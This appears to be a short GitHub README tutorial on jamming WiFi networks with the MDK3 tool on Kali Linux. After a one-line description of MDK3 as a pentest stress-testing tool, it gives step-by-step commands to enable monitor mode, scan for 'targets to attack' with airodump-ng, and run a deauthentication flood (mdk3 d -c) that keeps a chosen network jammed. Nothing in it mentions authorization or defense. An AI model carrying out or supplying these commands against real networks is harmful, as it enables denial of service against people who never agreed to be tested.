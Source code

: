 # MDK3
WIFI jamming with MDK3

so today I am going to show you how to jam wifi networks with kali linux using MDK3.

<b>What is MDK3:</b> MDK3 is a proof of concept tool. It is used for stress testing 802.11 networks(wifi). It consists of various methods by which we can perform tests. Some of major method sare beacon flooding, deauthentication, WPA- dos etc. In pentests mdk is used for testing the network infrastructures having 802.11 implementations and ensuring compliance standards.

So lets begin:

1) Open up the terminal and type <b>"sudo apt install mdk3"</b>
<img src = "IMG_20200423_105410[1].jpg" height=250px >

2) Open up another terminal and start monitor mode by typing <b>"sudo airmon-ng start (interface)"</b>
   (you can check your interface by typing <b>"ifconfig"</b> my  interface is wlan0)
  
3) In the same terminal again type <b>"ifconfig"</b> to view the interace you have started monitor mode in (for example if your interface before was "wlan0" after montor made it will be changed to "wlan0mon")

4) Now we look for targets to attack on, for that type <b>"sudo airodump-ng ( monitor-mode interface)"</b>( press ctrl+c to stop the scan)
  <img src ="IMG_20200423_105616.jpg" height=250px width=300px>
  
5) Find the channel no. your target is on and then in the mdk3 terminal type <b>" sudo mdk3 (monitor-mode interface) d -c (your targets channel number)"</b>  example: <b>"sudo mdk3 wlan0mon d -c 10"</b>]


<br><br><br>
Now the wifi network of your target is jammed ad it wont staop until you stop the program by ressing ctrl+c
